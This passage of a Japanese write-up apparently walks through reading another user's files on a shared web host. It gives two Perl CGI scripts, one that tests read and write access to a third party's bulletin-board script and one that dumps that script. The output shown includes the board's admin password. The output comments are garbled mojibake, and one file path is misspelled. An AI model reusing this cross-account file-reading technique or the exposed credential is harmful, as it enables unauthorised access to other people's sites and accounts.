 　という結果でした。ありましたね。ディレクトリが無いのでlock、pastは作っ
てないようです。位置が分かったので読んでみましょう。

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- check.cgi \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<
\#!/usr/local/bin/perl

$file \= '/usr/home/web/m/mp123/cgi\-bin/light.cgi';

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";
print 'r' if (\-r $file);
print 'w' if (\-w $file);
print "\n";

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\-  cut  cut  \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<

　その前に、一応チェックしてみました。これはファイルが読めるなら'r'、ファ
イルへ書き込めるなら'w'を表示するものです。

r

  と出ました。このファイルは読み込めます。読みましょう。

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- read.cgi \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<
\#!/usr/local/bin/perl

$file \= '/usr/home/web/m/mp123/cgi\-bin/ligth.cgi';

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";

open(FILE, $file);
print while (<FILE>);
close(FILE);

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- cut \- cut \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<

  これは$fileに指定したファイルの内容を全て表示させるものです。

  以下は結果。

\-\-\-\-\-
\#!/usr/local/bin/perl



\#?!??????????????????????????????????????????????????????????????????

\#?  LI*HT B*ARD v5.6 (2002/01/06) (伏字)

\#?  Copyright(c) K*NT W*B 2002 (伏字)

\#?  E\-MAIL: ******************(伏字)

\#?  WWW: ****************(伏字)

\#????????????????????????????????????????????????????????????????????

（長いので略）

\# ?C???O?p?}?X?^?p?X???[?h(”??p‰p?”??)

$pass \= 'sjeis';

（以下略）
\-\-\-\-\-
